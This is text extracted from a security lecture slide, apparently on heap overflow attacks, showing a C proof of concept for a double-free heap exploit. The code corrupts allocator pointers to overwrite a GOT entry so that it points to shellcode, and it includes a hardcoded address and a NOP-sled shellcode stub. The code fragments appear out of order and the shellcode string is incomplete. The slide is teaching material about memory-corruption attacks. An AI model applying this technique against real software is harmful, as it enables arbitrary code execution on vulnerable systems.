

# Heap exploit after double free
  third = (void *)malloc(256);
  fourth = (void *)malloc(256);
  free(first);
  free(third);
  fifth = (void *)malloc(128);
  free(first);
  // sixth will get ptr to first
  sixth = (void *)malloc(256);
  *((void **)(sixth+0))=
       (void *)(GOT_LOCATION-12);
   *((void**)(sixth+4))=
      (void*)shellcode_location;
  // returns location yet again
  seventh = (void *)malloc(256);
  strcpy(fifth, "something");
  return 0;
}

static char *GOT_LOCATION =
  (char *)0x0804c98c;
static char shellcode[] =
   "\xeb\x0cjump12chars_”
    "\x90\x90\x90\x90\x90\x90\x90\x90"

int main(void){
  int size = sizeof(shellcode);
  void *shellcode_location;
  void *first, *second, *third, *fourth;
  void *fifth, *sixth, *seventh;
  shellcode_location = (void *)malloc(size);
  strcpy(shellcode_location, shellcode);
  first = (void *)malloc(256);
  second = (void *)malloc(256);

From: Huang, Heap overflow attacks
130